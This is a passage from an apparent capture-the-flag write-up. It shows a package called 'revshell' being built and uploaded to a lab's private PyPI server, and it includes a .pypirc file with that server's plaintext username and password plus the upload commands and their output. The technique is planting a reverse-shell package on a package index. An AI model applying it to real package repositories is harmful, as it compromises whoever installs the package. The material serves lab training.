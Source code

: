 There’s now an archive in the `dist` directory:

```

root@kali# ls -l dist/
total 4
-rwxrwx--- 1 root vboxsf 943 Jul 13 07:10 revshell-0.0.1.tar.gz

```

#### Remote PyPI

To package for a remote PyPI, I’ll create `~/.pypirc`, where I’ll define the server, including the authentication:

```

[distutils]
index-servers =
  sneaky
[sneaky]
repository: http://pypi.sneakycorp.htb:8080
username: pypi
password: soufianeelhaoui

```

Now I can run `setup.py` to upload to this server using the `upload` command. In fact, it’s required to create the package and upload it in the same run. If I just try to `upload`, it complains:

```

root@kali# python setup.py upload -r sneaky
running upload
error: Must create and upload files in one command (e.g. setup.py sdist upload)

```

But if I `sdist` and `upload`, it works:

```

root@kali# python setup.py sdist upload -r sneaky
running sdist
running egg_info
writing revshell.egg-info/PKG-INFO
writing top-level names to revshell.egg-info/top_level.txt
writing dependency_links to revshell.egg-info/dependency_links.txt
reading manifest file 'revshell.egg-info/SOURCES.txt'
writing manifest file 'revshell.egg-info/SOURCES.txt'
running check
creating revshell-0.0.1
creating revshell-0.0.1/revshell.egg-info
copying files to revshell-0.0.1...
copying README.md -> revshell-0.0.1
copying setup.cfg -> revshell-0.0.1
copying setup.py -> revshell-0.0.1
copying revshell.egg-info/PKG-INFO -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/SOURCES.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/dependency_links.txt -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/not-zip-safe -> revshell-0.0.1/revshell.egg-info
copying revshell.egg-info/top_level.txt -> revshell-0.0.1/revshell.egg-info
Writing revshell-0.0.1/setup.cfg
Creating tar archive
removing 'revshell-0.0.1' (and everything under it)
running upload
Submitting dist/revshell-0.0.1.tar.gz to http://pypi.sneakycorp.htb:8080
Server response (200): OK
```